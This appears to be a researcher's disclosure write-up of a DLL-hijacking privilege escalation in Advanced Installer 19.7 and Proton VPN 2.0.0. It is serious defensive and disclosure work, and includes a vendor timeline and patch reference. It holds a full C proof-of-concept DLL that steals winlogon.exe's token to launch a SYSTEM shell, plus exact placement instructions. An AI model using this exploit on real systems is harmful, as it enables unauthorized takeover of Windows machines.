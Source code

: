 ```yaml
---
title : "Advaned Installer Local Privilege Escalation Vulnerability"
excerpt: "Advaned Installer Local Privilege Escalation Vulnerability"
toc: true

categories:
    - "0-day"
tags:
    - [Mitre]
---
```


## 0x01: Details

- Title: Advanced Installer Local Privilege Escalation Vulnerability
- CVE ID:
- Advisory Published: 2022/08/01
- Advisory URL: https://www.advancedinstaller.com/release-19.7.1.html#bugfixes
- Vendor URL : https://www.advancedinstaller.com

## 0x02: Test Environment

- OS : Windows 10 Pro 64 bit 21H2 (build 19044.1826)
- Advanced Installer: 19.7
- Proton VPN: 2.0.0

## 0x03: Vulnerability details

A vulnerability existed in the Advanced Installer that loaded GdiPlus.dll, one of the WinSxS DLLs.

## 0x04: Technical description

I found this vulnerability through Proton VPN, so I will describe it as Proton VPN.

The Proton VPN installer runs with Administrator privileges and loads GdiPlus.dll from `%INSTALLER_LOCATION%\ProtonVPN_win_v2.0.0.exe.Local\x86_microsoft.windows.gdiplus_6595b64144ccf1df_1.1.19041.1706_none_d94bc52be10975a7`. If the `ProtonVPN_win_v2.0.0.exe.Local` directory does not exist, load the dll from `C:\Windows\WinSxS\x86_microsoft.windows.gdiplus_6595b64144ccf1df_1.1.19041.1706_none_d94bc52be10975a7`. At this time, the ProtonVPN_win_v2.0.0.exe.Local directory can be accessed by general users, so the attacker can load GdiPlus.dll with Administrator privileges and elevate it to SYSTEM privileges through a dll hijacking attack.

I discovered this vulnerability through [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon).

![Untitled](/files/Advaned%20Installer%20Local%20Privilege%20Escalation%20Vulnerability/Untitled.png)

## 0x05: Proof-of-Concept (PoC)

```c
#include <stdio.h>
#include <windows.h>
#include <Psapi.h>
#include <Tlhelp32.h>
#include <sddl.h>

#pragma comment (lib,"advapi32.lib")

int exploit() {
	DWORD lpidProcess[2048], lpcbNeeded, cProcesses;
	EnumProcesses(lpidProcess, sizeof(lpidProcess), &lpcbNeeded);
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	PROCESSENTRY32 p32;
	p32.dwSize = sizeof(PROCESSENTRY32);

	int processWinlogonPid;

	if (Process32First(hSnapshot, &p32)) {
		do {
			if (wcscmp(p32.szExeFile, L"winlogon.exe") == 0) {
				printf("[+] Located winlogon.exe by process name (PID %d)\n", p32.th32ProcessID);
				processWinlogonPid = p32.th32ProcessID;
				break;
			}
		} while (Process32Next(hSnapshot, &p32));

		CloseHandle(hSnapshot);
	}

	LUID luid;
	HANDLE currentProc = OpenProcess(PROCESS_ALL_ACCESS, 0, GetCurrentProcessId());

	if (currentProc) {
		HANDLE TokenHandle = NULL;
		BOOL hProcessToken = OpenProcessToken(currentProc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &TokenHandle);
		if (hProcessToken) {
			BOOL checkToken = LookupPrivilegeValue(NULL, L"SeDebugPrivilege", &luid);

			if (!checkToken) {
				printf("[+] Current process token already includes SeDebugPrivilege\n");
			}
			else {
				TOKEN_PRIVILEGES tokenPrivs;

				tokenPrivs.PrivilegeCount = 1;
				tokenPrivs.Privileges[0].Luid = luid;
				tokenPrivs.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

				BOOL adjustToken = AdjustTokenPrivileges(TokenHandle, FALSE, &tokenPrivs, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL);

				if (adjustToken != 0) {
					printf("[+] Added SeDebugPrivilege to the current process token\n");
				}
			}
			CloseHandle(TokenHandle);
		}
	}
	CloseHandle(currentProc);

	HANDLE hProcess = NULL;
	HANDLE TokenHandle = NULL;
	HANDLE NewToken = NULL;
	BOOL OpenToken;
	BOOL Impersonate;
	BOOL Duplicate;

	hProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, processWinlogonPid);

	if (!hProcess) {
		printf("[-] Failed to obtain a HANDLE to the target PID\n");
		return -1;
	}

	printf("[+] Obtained a HANDLE to the target PID\n");

	OpenToken = OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &TokenHandle);

	if (!OpenToken) {
		printf("[-] Failed to obtain a HANDLE to the target TOKEN %d\n", GetLastError());
	}

	printf("[+] Obtained a HANDLE to the target TOKEN\n");

	Impersonate = ImpersonateLoggedOnUser(TokenHandle);

	if (!Impersonate) {
		printf("[-] Failed to impersonate the TOKEN's user\n");
		return -1;
	}

	printf("[+] Impersonated the TOKEN's user\n");

	Duplicate = DuplicateTokenEx(TokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &NewToken);

	if (!Duplicate) {
		printf("[-] Failed to duplicate the target TOKEN\n");
		return -1;
	}

	printf("[+] Duplicated the target TOKEN\n");

	BOOL NewProcess;

	STARTUPINFO lpStartupInfo = { 0 };
	PROCESS_INFORMATION lpProcessInformation = { 0 };

	lpStartupInfo.cb = sizeof(lpStartupInfo);

	NewProcess = CreateProcessWithTokenW(NewToken, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &lpStartupInfo, &lpProcessInformation);

	if (!NewProcess) {
		printf("[-] Failed to create a SYSTEM process\n");
		return -1;
	}

	printf("[+] Created a SYSTEM process\n");

	CloseHandle(NewToken);
	CloseHandle(hProcess);
	CloseHandle(TokenHandle);

	return 0;
}

BOOL APIENTRY DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
    switch (fdwReason) {
        case DLL_PROCESS_ATTACH: {
						exploit();
            break;
        }

        case DLL_THREAD_ATTACH: {
            break;
        }

        case DLL_THREAD_DETACH: {
            break;
        }

        case DLL_PROCESS_DETACH: {
            break;
        }
    }
    return TRUE;
}
```

- After compiling the above code in x86 mode, place it as `%INSTALLER_LOCATION%\%INSTALLER%.Local\x86_microsoft.windows.gdiplus_6595b64144ccf1df_1.1.19041.1706_none_d94bc52be10975a7\GdiPlus.dll`.

## 0x06: Affected Products

This vulnerability affects the following product:

- Advanced Installer <= 19.7
- Proton VPN for Windows <= 2.0.0

## 0x07: TimeLine

- 2022/06/12 : First time contacted via email from Proton VPN(security@protonmail.com).
- 2022/07/20 : Proton VPN said this was an Advanced Installer vulnerability and asked the Advanced Installer if they could share the POC.
- 2022/08/01 : Received confirmation that a patch is being released (v19.7.1). Advanced Installer gave me the Advanced Installer Architect license key as a token of appreciation.

## 0x08: Reference
- [https://www.advancedinstaller.com/release-19.7.1.html#bugfixes](https://www.advancedinstaller.com/release-19.7.1.html#bugfixes)
